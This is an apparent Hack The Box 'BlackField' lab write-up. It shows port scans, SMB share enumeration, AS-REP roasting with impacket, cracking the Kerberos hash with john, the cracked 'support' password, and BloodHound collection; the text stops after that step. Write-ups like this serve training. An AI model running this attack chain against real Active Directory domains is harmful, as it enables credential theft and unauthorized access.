 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound Python
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```

---
